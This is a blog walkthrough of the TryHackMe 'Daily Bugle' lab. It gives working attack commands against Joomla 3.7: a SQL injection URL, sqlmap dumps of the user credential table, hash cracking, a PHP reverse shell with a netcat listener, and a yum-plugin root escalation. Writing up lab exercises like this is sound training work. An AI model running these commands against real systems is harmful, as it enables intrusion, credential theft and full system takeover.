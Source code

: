 ```yaml
---
slug: daily-bugle-walkthrough
title: TryHackMe - Daily Bugle - Walkthrough
authors: bw
tags: [learning, daily-bugle, tryhackme, walkthrough]
---
```


This is a walkthrough for the [TryHackMe][thm] room: [Daily Bugle][daily-room]. Let’s get started!
<!-- truncate -->

# Deploy
Let’s start off with scanning the box! `nmap -sC -sV -oN nmap.txt <machine_ip>`

![d1](/img/thm/dailybugle/d1.png)

It looks like we have a webserver managed by Joomla, with a MySQL DB on the backend. Let’s visit the website!

![d2](/img/thm/dailybugle/d2.webp)

There is our first answer!

# Obtain user and root
From the nmap scan, we can see that it found some pages. However, before we do that, since we know it is **Joomla** let’s scan the site with `joomscan`. This can be found [here][joomscan]. This is a tool that will scan Joomla and tell is info and possible vulnerabilities.

We will run it with the following command: `perl joomscan.pl -u http://<machine_ip>`

![d3](/img/thm/dailybugle/d3.png)

The scan came back with a version number! After looking through the info, there isn’t much else there that we didn’t already know. Let’s search for vulnerabilities in that version.

`searchsploit joomla 3.7`

We see a few options. Let’s go with `42033`. This can be found [here][exdb]. The exploit suggests that the following URL is vulnerable:

`http://localhost/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml%27`

Let’s navigate to that URL and check on our server.

![d4](/img/thm/dailybugle/d4.webp)

If you see on the bottom, we get a SQL error from the DB server. This means it is vulnerable! Let’s use SQLMap to exploit this (syntax can be found in exploit information)!

```bash
sqlmap -u "http://<machine_ip>/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent --dbs -p list[fullordering]
```

Now that we have the various database names, let’s dump out the credentials. We want the `joomla` database.

```bash
sqlmap -u "http://<machine_ip>/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent -D joomla -T '#__users' -C id,name,username,email,password,usertype,block,sendEmail,registerDate,lastvisitDate,activation,params --dump
```

![d5](/img/thm/dailybugle/d5.webp)

We have the hash! Let’s crack it with **John the Ripper**. Put the hash into a file. Then run `john` against a wordlist.

`john hash.txt --wordlist=/home/bw/PenTesting/Tools/SecLists/Passwords/Common-Credentials/rockyou.txt`

We cracked the password!

![d6](/img/thm/dailybugle/d6.png)

Login to Joomla. Let’s see what our permissions are. Navigate to **Users** and you can see that we have **Super User** permissions. Let’s edit a template to give us a shell! Navigate to **Templates > Templates > Protostar Details and Files > index.php**

Now add our reverse shell code (This can be found [here][php]):

![d7](/img/thm/dailybugle/d7.png)

Save the template. Start a `netcat` listener on the port specified: `nc -lnvp 1234`

Now select **Template Preview** and you should see a shell come up! We are the apache user, so we need to find user credentials to ssh in with.

Let’s `ls /home` to find a username. Then navigate to `/var/www/html` so we can get credentials.

Here we find the `configuration.php` file. We can gather credentials here:

![d8](/img/thm/dailybugle/d8.png)

SSH into the box and find the user flag!

![d9](/img/thm/dailybugle/d9.png)

Now we need to do some privilege escalation. We need to utilize `yum` for our privesc exploit. Let’s look at [GTFObins][gtfo]. Search for `yum`. Let’s use the 2nd option.

```bash
TF=$(mktemp -d)

cat >$TF/x<<EOF

[main]

plugins=1

pluginpath=$TF

pluginconfpath=$TF

EOF


cat >$TF/y.conf<<EOF

[main]

enabled=1

EOF


cat >$TF/y.py<<EOF

import os

import yum

from yum.plugins import PluginYumExit, TYPE_CORE, TYPE_INTERACTIVE requires_api_version='2.1'

def init_hook(conduit):

   
os.execl('/bin/sh','/bin/sh')

EOF
```

`sudo yum -c $TF/x --enableplugin=y`

Now we can run: `whoami`. We are root!!!

Let’s get the flag!

![d10](/img/thm/dailybugle/d10.png)

# Review
Wow! This was definitely a more difficult box than I’ve done so far on THM. It was such a fun challenge and I’m glad that it put up a fight! I learned some new tools like joomscan and utilized the tried and true PHP reverse shell. Overall, this was a great room to challenge yourself!

# References
[TryHackMe][thm] | [Daily Bugle Room][daily-room] | [Joomscan][joomscan] | [Exploit-DB: 42033][exdb] | [PHP Reverse Shell][php] | [GTFObins][gtfo]

[thm]: https://tryhackme.com
[daily-room]: https://tryhackme.com/r/room/dailybugle
[joomscan]: https://github.com/OWASP/joomscan
[exdb]: https://www.exploit-db.com/exploits/42033
[php]: https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php
[gtfo]: https://gtfobins.github.io